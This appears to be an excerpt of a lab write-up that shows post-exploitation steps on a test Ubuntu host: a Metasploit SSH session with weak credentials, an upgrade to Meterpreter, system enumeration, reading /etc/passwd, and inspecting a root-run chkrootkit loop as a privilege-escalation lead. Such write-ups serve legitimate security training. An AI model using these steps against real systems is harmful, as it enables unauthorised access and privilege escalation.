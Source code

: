 ```bash
sessions
	1 shell unknown  SSH jackie:password (192.15.244.3:22)
sessions 1
/bin/bash -i
pwd
	/home/jackie
whoami
	jackie

cat /etc/*issue
	Ubuntu 18.04.3 LTS \n \l
uname -r

# CTRL+Z
```

```bash
sessions -u 1
sessions
sessions 2

sysinfo
    Computer     : 192.15.244.3
    OS           : Ubuntu 18.04 (Linux 5.4.0-131-generic)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
getuid
	Server username: no-user @ victim-1 (uid=1000, gid=1000, euid=1000, egid=1000)
```

```bash
shell
/bin/bash -i
cat /etc/passwd
```

![](.gitbook/assets/image-20230422133205452.png)

```bash
ps aux
```

![ps aux](.gitbook/assets/image-20230422133341465.png)

- Investigate the `/bin/check-down` binary

```bash
cat /bin/check-down

    #!/bin/bash
    while :
    do
            /usr/local/bin/chkrootkit/chkrootkit -x > /dev/null 2>&1
            sleep 60
    done
```
